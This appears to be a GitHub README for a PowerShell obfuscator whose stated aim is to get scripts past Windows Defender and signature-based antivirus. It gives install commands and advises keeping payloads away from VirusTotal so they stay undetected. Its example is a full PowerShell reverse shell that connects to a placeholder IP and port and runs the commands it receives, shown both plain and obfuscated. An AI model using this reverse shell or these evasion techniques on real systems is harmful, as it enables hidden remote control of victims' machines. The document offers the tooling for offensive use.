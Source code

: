 #### NOTE: DO NOT test your payloads by uploading to virustotal or similar services unless you want them to be finger printed and become ineffective.
# Swag PSO
swag powershell obfuscator

## Install
using wget
```bash
sudo bash -c "wget https://raw.githubusercontent.com/1337Rin/Swag-PSO/main/swagpso.sh -O /usr/bin/swagpso && chmod 755 /usr/bin/swagpso"
```
using curl
```bash
sudo bash -c "curl https://raw.githubusercontent.com/1337Rin/Swag-PSO/main/swagpso.sh > /usr/bin/swagpso && chmod 755 /usr/bin/swagpso"
```

## Description
SwagPSO is a simple shell script to help obfuscate powershell scripts in order to bypass Windows Defender and other signature based AV. SwagPSO only focuses on automating obfuscation techniques that would be tedious to do by hand and therefore should not be the only tool used in the obfuscation process. Additionally it may break programs depending on their complexity and is thus better suited for simple scripts. It currently supports 5 tecniques.
* renaming functions
* renaming variables
* randomizing capatalization
* adding junk comments
* replacing "\n" with ;

## Example
using SwagPSO...
```powershell
$socket = new-object System.Net.Sockets.TcpClient("<IP>",<PORT>);
if($socket -eq $null){exit 1}
$stream = $socket.GetStream();
$writer = new-object System.IO.StreamWriter($stream);
$buffer = new-object System.Byte[] 1024;
$encoding = new-object System.Text.AsciiEncoding;
do{
    $writer.Write("[new]> ");
    $writer.Flush();
    $read = $null;
    while($stream.DataAvailable -or ($read = $stream.Read($buffer, 0, 1024)) -eq $null){}
    $out = $encoding.GetString($buffer, 0, $read).Replace("rn","").Replace("`n","");
    if(!$out.equals("exit")){
        $out = $out.split()
            $res = [string](&$out[0] $out[1..$out.length]);
        if($res -ne $null){ $writer.WriteLine($res)}
    }
}While (!$out.equals("exit"))
$writer.close();$socket.close();
```
would become...
```powershell
$babys_first_programmWN1BRx7SjcmX7jRPncH = neW-oBJeCt systeM.net.soCKets.tCpClient("<ip>",<port>);<#fhzbi#>;if($babys_first_programmWN1BRx7SjcmX7jRPncH -eq $babys_first_programYbkv5RJpgIyTNDnEYU5k){eXit 1};$babys_first_programZe3M3kaGXgLr86LFV4aQ = $babys_first_programmWN1BRx7SjcmX7jRPncH.GetstreaM();<#fhzbi#>;$babys_first_programrEtlVoFT8BpA8C9Oyijq = neW-oBJeCt systeM.io.streaMWriter($babys_first_programZe3M3kaGXgLr86LFV4aQ);<#fhzbi#>;$babys_first_program9tYZO5jojGkbSgB36qw7 = neW-oBJeCt systeM.Byte[] 1024;<#fhzbi#>;$babys_first_program60fXu3maa4rL2uATEbrR = neW-oBJeCt systeM.teXt.asCiienCodinG;<#fhzbi#>;do{; $babys_first_programrEtlVoFT8BpA8C9Oyijq.Write("[neW]> ");<#fhzbi#>; $babys_first_programrEtlVoFT8BpA8C9Oyijq.flUsh();<#fhzbi#>; $babys_first_programPf3xEva5bv3rjpPPcY0Q = $babys_first_programYbkv5RJpgIyTNDnEYU5k;<#fhzbi#>; While($babys_first_programZe3M3kaGXgLr86LFV4aQ.dataaVailaBle -or ($babys_first_programPf3xEva5bv3rjpPPcY0Q = $babys_first_programZe3M3kaGXgLr86LFV4aQ.read($babys_first_program9tYZO5jojGkbSgB36qw7, 0, 1024)) -eq $babys_first_programYbkv5RJpgIyTNDnEYU5k){}; $babys_first_programLesW7SueU7yb0fUEvgau = $babys_first_program60fXu3maa4rL2uATEbrR.GetstrinG($babys_first_program9tYZO5jojGkbSgB36qw7, 0, $babys_first_programPf3xEva5bv3rjpPPcY0Q).replaCe("rn","").replaCe("`n","");<#fhzbi#>; if(!$babys_first_programLesW7SueU7yb0fUEvgau.eqUals("eXit")){; $babys_first_programLesW7SueU7yb0fUEvgau = $babys_first_programLesW7SueU7yb0fUEvgau.split(); $babys_first_programekuoBqPcZzisObyVeYUD = [strinG](&$babys_first_programLesW7SueU7yb0fUEvgau[0] $babys_first_programLesW7SueU7yb0fUEvgau[1..$babys_first_programLesW7SueU7yb0fUEvgau.lenGth]);<#fhzbi#>; if($babys_first_programekuoBqPcZzisObyVeYUD -ne $babys_first_programYbkv5RJpgIyTNDnEYU5k){ $babys_first_programrEtlVoFT8BpA8C9Oyijq.Writeline($babys_first_programekuoBqPcZzisObyVeYUD)}; };}While (!$babys_first_programLesW7SueU7yb0fUEvgau.eqUals("eXit"));$babys_first_programrEtlVoFT8BpA8C9Oyijq.Close();<#fhzbi#>$babys_first_programmWN1BRx7SjcmX7jRPncH.Close();<#fhzbi#>;
```
